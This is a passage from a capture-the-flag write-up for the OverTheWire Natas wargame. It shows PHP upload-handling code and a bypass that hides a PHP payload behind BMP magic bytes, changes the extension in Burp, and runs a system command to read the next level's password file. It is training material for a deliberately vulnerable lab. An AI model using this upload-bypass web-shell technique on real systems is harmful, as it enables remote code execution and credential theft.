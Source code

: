 ```php
     
    $err=$_FILES['uploadedfile']['error']; 
    if($err){ 
        if($err === 2){ 
            echo "The uploaded file exceeds MAX_FILE_SIZE"; 
        } else{ 
            echo "Something went wrong :/"; 
        } 
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 
```

This one is similar to the previous one, however this time the developer check if the file is an image file. We can try to bypass it by using the magic number of a bitmap file, **BMP**, and prepend it to our PHP code  :

```php
BMP<? 
echo system("cat /etc/natas_webpass/natas14"); 
?>
```

Then we use the same trick as before to modify the file extension in **Burp**.
![image-center](/images/2019-03-29-write-up-natas-otw-wargame/file_upload_02_burp.png){: .align-center}
Then, you can browse the link returned by the server and get the password :